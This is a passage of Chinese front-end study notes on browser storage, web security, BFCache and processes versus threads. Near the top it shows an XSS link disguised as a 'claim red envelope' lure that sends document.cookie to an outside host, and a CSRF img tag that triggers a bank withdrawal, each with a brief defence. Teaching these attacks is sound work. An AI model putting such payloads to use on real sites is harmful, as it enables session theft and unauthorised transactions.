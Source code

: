 ```html
<a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>
```

可通过 HttpOnly 防止 js 操作 Cookie

CSRF：不同域名下使用地址

```html
<img src="http://www.bank.com/withdraw?user=shenyang&total=777" />
```

这时候会提交表单。可通过增加其他校验手段解决。

#### SessionStorage, LocalStorage

SessionStorage 和 LocalStorage 都是本地存储，不会被发送到服务器上。同时空间比 Cookie 大很多

http://dev-test.nemikor.com/web-storage/support-test/

#### indexDB

IndexedDb 提供了一个结构化的、事务型的、高性能的 NoSQL 类型的数据库，包含了一组同步/异步 API

[详情](./indexed-db)

#### PWA(Service Worker)

作为一个独立的线程，是一段在后台运行的脚本，可使 web app 也具有类似原生 App 的离线使用、消息推送、后台自动更新等能力

- 不能访问 DOM
- 不能使用同步 API
- 需要 HTTPS 协议

## BFCache

[back/forward cache](https://web.dev/bfcache/)，是浏览器为了在用户页面间执行前进后退操作时拥有更加流畅体验的一种策略。

1. 前往新页面时，将当前页面的快照（JavaScript heap）存在内存中
2. 点击后退按钮时，将页面直接从 bfcache 中加载，节省了时间
3. setTimeout、Promise 等任务都会保存状态并暂停，直到页面恢复

测试页面是否可用：DevTools -> Application -> Back/forward cache -> Test back/forward cache

## 进程与线程

> 进程和线程都是一个时间段的描述，是 CPU 工作时间段的描述

- 进程 process：进程就是时间总和=执行环境切换时间+程序执行时间-->CPU 加载执行环境->CPU 执行程序->CPU 保存执行环境
- 线程 thread：线程也是时间总和=执行环境切换时间（共享进程的）+程序模块执行时间-->CPU 加载执行环境（共享进程的）->CPU 执行程序摸块->CPU 保存执行环境（共享进程的）
- 进程和线程都是描述 CPU 工作的时间段，线程是更细小的时间段。

### 进程

> 程序的一次执行，它占有一片独有的内存空间， 是操作系统执行的基本单元

- 一个程序可以同时允许运行多个进程， 那么就是**多进程**
- 一个进程内的数据可以供其中的多个线程直接共享， 多个进程之间的数据是不能直接共享的
